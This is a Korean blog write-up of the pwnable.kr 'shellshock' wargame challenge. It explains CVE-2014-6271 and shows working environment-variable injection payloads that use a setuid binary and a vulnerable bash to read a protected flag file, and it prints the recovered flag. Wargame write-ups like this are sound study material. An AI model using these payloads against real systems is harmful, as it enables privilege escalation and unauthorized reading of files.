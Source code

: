 ```yaml
---
layout: post
title: ! "[Pwnable.kr] Toddler's Bottle - shellshock 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Pwnable.kr]
tags:
  - Write-up
  - Pwnable.kr
---
```


밤에 바로 잘까 하다가 갑자기 1pt 짜리 shellshcok 문제가 있었다는 것이 생각나 후딱 풀어보았다.  

예전에 CTF에서 나왔던 걸 풀어봐서인지 금방 풀 수 있었다.  

<!--more-->
  
문제 접속 정보는 아래와 같다.  

* ssh shellshock@pwnable.kr -p2222 (pw:guest)

문제에 접속하면 4개의 파일을 확인할 수 있다.  

> -r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 `bash`  
> -r--r-----  1 root shellshock_pwn     47 Oct 12  2014 `flag`  
> -r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 `shellshock`  
> -r--r--r--  1 root root              188 Oct 12  2014 `shellshock.c`  

다른 문제들이랑 동일하게 실행파일, 소스코드, flag 파일이 있고, 이번에는 추가적으로 `bash`가 있다.   

`shellshock.c`의 내용은 다음과 같다.  

```c
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

소스코드가 굉장히 짧다.  

다른 문제들에 비해 비교적 간단한데 이 중 주의깊게 봐야 할 부분은 `system()` 함수를 호출하는 부분이다.  

`system()` 함수를 호출 해 `/home/shellshock/bash -c 'echo shock_me`를 실행시킨다.  

즉 현재 디렉토리에 있는 `bash`를 통해 `echo shock_me`를 실행시키는 것이다.  

`shellshock` 취약점은 하도 유명한 취약점이라 한번쯤은 이름이라도 들어봤을 것 같다.  

그래서 현재 디렉토리에 있는 `bash`가 `shellshock` 취약점을 사용할 수 있는 버전인지 확인을 해 보았다.  

먼저 그냥 `bash`의 버전을 확인 해 보면 `4.3.48`로 `shellshock` 취약점에 취약한 버전이 아니다.  

```
shellshock@ubuntu:~$ bash --version
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

하지만 현재 디렉토리에 있는 `bash`의 버전은 `4.2.25`로 `shellshock`에 취약하다.  

```
shellshock@ubuntu:~$ ./bash --version
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

그렇다면 `shellshock.c`에서 `shellshock` 취약점을 사용할 수 있는 현재 디렉토리의 `bash`를 사용 해 특정 명령어를 실행하니, `shellshock` 취약점을 사용 해 `flag`를 읽으면 될 것 같다.  

일단 `shellshock` 취약점을 테스트 해 볼 수 있는 방법은 다음과 같다.  

```
$ ​$ env x='() { :; }; echo test' bash -c "echo test2"
test
test2
```

특정 환경변수에 위와 같이 값을 입력한 후, `shellshock`에 취약한 `bash`를 실행시키면 함수의 종료부인 `;` 뒤의 추가적인 명령어 (위의 예시에서는 `echo test`)가 실행되는 것이다.  

(echo test2가 출력되는 이유는 새로운 bash를 이용 해 echo test2 명령어를 실행시켰기 때문이다.)  

처음에는 이게 왜 실행되는지 잘 이해가 되지 않았다.  

그래서 더 찾아보다가 취약점의 원인에 대해 잘 잘 설명한 블로그 글을 찾았다.  

[Shellshock 설명 블로그](https://operatingsystems.tistory.com/entry/Shellshock-CVE20146271)  

위의 블로그에 따르면, `bash process`가 동작하는 순서는 다음과 같다.  

```
1. bash 실행
2. bash 환경변수 초기화
3. bash shell prompt 출력
4. 명령어 대기
5. (명령어 수행할 경우) 명령어를 문자열로 저장 해 해당 문자열 파싱
6. 파싱 된 구초제를 이용 해 명령어 수행
```

이 때, `shellshock` 취약점은 `2번` 과정에서 발생한다.  

환경변수를 초기화 할 때 함수의 종료를 의미하는 `;`를 끝으로 더 이상 인식하지 말아야하는데 이를 제대로 파악하지 못해 그 뒤의 명령어가 실행되는 취약점이다.  

다른 예를 들어 설명하면, `export x='() { echo test; }; echo test2'`에서 `export x='() { echo test; };`만을 환경변수 `x`의 값으로 넣어, `x` 실행 시 `echo test`가 나오도록 하고 나머지 부분은 무시하거나 따로 처리하도록 해야 하는데, `;` 뒤의 `echo test2`를 명령어로 인식하여 새로운 `bash` 실행 시 `echo test2`가 실행되는 것이다.  

이를 테스트 해 보면 다음과 같다.  

```
shellshock@ubuntu:~$ export x='() { echo test; }; echo test2'
shellshock@ubuntu:~$ ./bash
test2
shellshock@ubuntu:~$ x
test
```

원래의 `bash`에서 `x` 환경변수를 등록한 후 취약한 버전의 `bash`를 실행하면 자동으로 `echo test2`가 실행된다.  

새로운 `bash`가 실행되며 `x` 환경변수는 초기화 되었으므로 `x`의 값은 새로운 `bash`에서 `echo test`를 실행하는 함수로 설정되어 있어, `x` 실행 시 `echo test`가 실행된다.  

그렇다면 문제로 돌아가서, `shellshock.c` 코드에서는 취약한 버전의 `bash`를 새로 실행한다.  

또한 권한을 확인 해 보았을 때 `shellshock` 실행파일에 `SetUID`가 걸려있으므로, 해당 실행 파일의 권한을 이용 해 `bash`를 실행한다면, `flag` 또한 읽을 수 있다.  

그래서 x라는 이름으로 아래와 같은 환경변수를 등록했다.    

```
shellshock@ubuntu:~$ export x='() { echo test; }; /bin/cat flag'
```

그러면 `shellshock` 실행파일에서 `system("/home/shellshock/bash -c 'echo shock_me'");`를 실행하며 새로운 `bash`를 실행시킬 것이며, 이 때 환경변수를 초기화 하며 `x`는 `echo test`를 실행하는 함수가 저장 될 것이다.  

또한 `;` 뒤의 `/bin/cat flag` 명령어를 실행하게 될 것이다.  

이 후 `shellshock`를 실행 해 본 결과 아래와 같이 플래그를 얻을 수 있었다. ㅎㅎ  

![]({{ site.baseurl }}/images/pwnable.kr/shellshock/shellshock_01.PNG)

```
shellshock@ubuntu:~$ export x='() { echo test; }; /bin/cat flag'
shellshock@ubuntu:~$ ./shellshock 
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```

```
FLAG : only if I knew CVE-2014-6271 ten years ago..!!
```
